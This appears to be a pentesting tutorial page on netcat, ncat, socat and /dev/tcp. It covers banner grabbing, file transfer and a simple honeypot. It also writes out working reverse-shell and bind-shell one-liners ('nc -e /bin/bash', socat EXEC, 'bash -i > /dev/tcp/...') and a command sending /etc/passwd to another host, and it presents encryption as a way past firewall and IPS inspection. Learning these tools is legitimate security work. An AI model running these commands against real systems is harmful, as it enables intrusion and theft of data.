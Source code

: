 # Utilities

## Netcat

Using netcat is very simple: just enter the IP and then the port. This establishes the connection to the service and, in the example below, displays the FTP banner.

```
$ nc -v www.businesscorp.com.br 21

Connection to www.businesscorp.com.br (37.59.174.225) 21 port [tcp/ftp] succeeded!
220 ProFTPD 1.3.4a Server (FTP) [::ffff:37.59.174.225]
```

If we want to connect to a web service, we need to send a request (GET, HEAD, POST, etc), along with the location we want to access (in the example below we used “/”) and also the HTTP version. Remember that if it's HTTPS, you'll need to send the **host.** header.

```
$ nc -v www.businesscorp.com.br 80
HEAD / HTTP/1.0
```

To open a port on the machine for another host to connect, we use netcat as follows. In this case, the other host simply uses the machine's IP and port to establish the connection.

```
$ nc -nlvp 4444

Listening on 0.0.0.0 4444
```

#### File transfer

If you want to transfer files, just use the following method. First we open the port on the machine that wants to receive the file, inserting the “>” indicating that whatever is sent to this connection will be saved in the defined file name.

```bash
nc -nlvp 1337 > xpto.txt
```

Now all you have to do is connect to this IP and enter the port and the file to be sent

```bash
nc -v 192.168.0.10 1337 < xpto.txt
```

#### Creating a honeypot

If we want to simulate an open door on a machine to serve as a honeypot, we do the following.

```bash
while true; do sudo nc -nlvp 21 1>> log.txt 2>> erro.txt; done;
```

#### Reverse Shell

Netcat is also used when we want to get a reverse shell. We can open a port on our machine and on the target machine send the connection as follows.

```
nc <ip> <port> -e /bin/bash
```

The idea of the `reverse shell` is to bypass the firewall, once we have discovered an outgoing port on the target network, we can take advantage of this by making the target machine connect to ours, thus sending a shell. We can also generate through these sites.

## Ncat

Ncat is an evolution of netcat, the difference is that it supports encryption and therefore it is not possible to clearly read what is transmitted during communication. We then need to generate a certificate and a key.

```
$ openssl req -x509 -newkey rsa:2048 -keyout my-key.pem -out cert.pem -days 10
```

To open the connection, you will be asked to use the password you entered.

```
$ ncat -nlvp <port> --ssl-key my-key.pem --ssl-cert cert.pem
```

To connect, we need to pass one more parameter.

```
$ ncat -vn <ip> <port> --ssl
```

With encrypted communication, the firewall, IPS or similar, may have more difficulty analyzing the packets that are being transmitted for possible blocking.

## Socat

In socat, we can open a specific port like this (by default it asks for two addresses, so the "dash" is used as an alias to say that it does not have another address).

```
$ socat tcp4-listen:<porta> -
```

To connect, we can use any utility and enter the IP and port that was opened.

Now, using socat to connect, it looks like this.

```
$ socat tcp4:<ip>:<port> -
```

If we want to send /bin/bash

```
$ socat tcp4-listen:<port> EXEC:/bin/bash
```

## /dev/tcp

`/dev/tcp` also has some features in case we don't have access to the other utilities. When we use it, we open a tcp socket with a specific IP address and port. We can send a message or a file.

```
$ cat /etc/passwd > /dev/tcp/10.10.10.5/1337
```

If we want to send a bash, we do it as follows (the -i parameter means interactive).

```
$ bash -i > /dev/tcp/10.10.10.5/1337 0>&1 2>&1
```

We can also check if a port is open.

```
$ >/dev/tcp/www.businesscorp.com.br/21 && echo "port open"
port open
```

Remember that 0>&1 means that all stdin will be directed to stdout and 2>&1 means that all errors will be directed to stdout.

<figure><img src="../.gitbook/assets/utitilies.png" alt=""><figcaption></figcaption></figure>

STDIN - 0\
STDOUT - 1\
STDERR - 2
